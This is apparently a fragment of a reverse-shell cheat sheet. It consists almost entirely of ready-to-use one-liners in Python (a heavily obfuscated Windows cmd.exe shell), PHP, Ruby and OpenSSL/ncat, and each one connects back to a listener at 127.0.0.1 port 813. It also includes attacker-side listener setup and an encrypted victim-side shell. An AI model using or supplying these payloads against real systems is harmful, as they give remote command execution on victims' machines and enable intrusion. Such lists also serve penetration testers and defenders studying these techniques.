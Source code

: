 <pre id="python05">C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('127.0.0.1', 813)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"</pre>

<h3>PHP:</h3>
<pre id="php01">php -r '$sock=fsockopen("127.0.0.1",813);exec("/bin/sh -i <&3 >&3 2>&3");'</pre>
<pre id="php02">php -r '$s=fsockopen("127.0.0.1",813);$proc=proc_open("/bin/sh -i", array(0=>$s, 1=>$s, 2=>$s),$pipes);'</pre>
<pre id="php03">php -r '$s=fsockopen("127.0.0.1",813);shell_exec("/bin/sh -i <&3 >&3 2>&3");'</pre>
<pre id="php04">php -r '$s=fsockopen("127.0.0.1",813);`/bin/sh -i <&3 >&3 2>&3`;'</pre>
<pre id="php05">php -r '$s=fsockopen("127.0.0.1",813);system("/bin/sh -i <&3 >&3 2>&3");'</pre>
<pre id="php06">php -r '$s=fsockopen("127.0.0.1",813);popen("/bin/sh -i <&3 >&3 2>&3", "r");'</pre>

<h3>Ruby:</h3>
<pre id="ruby01">ruby -rsocket -e'f=TCPSocket.open("127.0.0.1",813).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'</pre>

<pre id="ruby02">ruby -rsocket -e 'exit if fork;c=TCPSocket.new("127.0.0.1","813");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'</pre>
<p>

NOTE: Windows only
<pre id="ruby03">ruby -rsocket -e 'c=TCPSocket.new("127.0.0.1","813");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'</pre>

<h3>OpenSSL:</h3>
Attacker:
<pre id="ssl01">openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes</pre>
<pre id="ssl02">openssl s_server -quiet -key key.pem -cert cert.pem -port 813</pre>
or
<pre id="ssl03">ncat --ssl -vv -l -p 813</pre>
Victim:
<pre id="ssl04">mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 127.0.0.1:813 > /tmp/s; rm /tmp/s</pre>
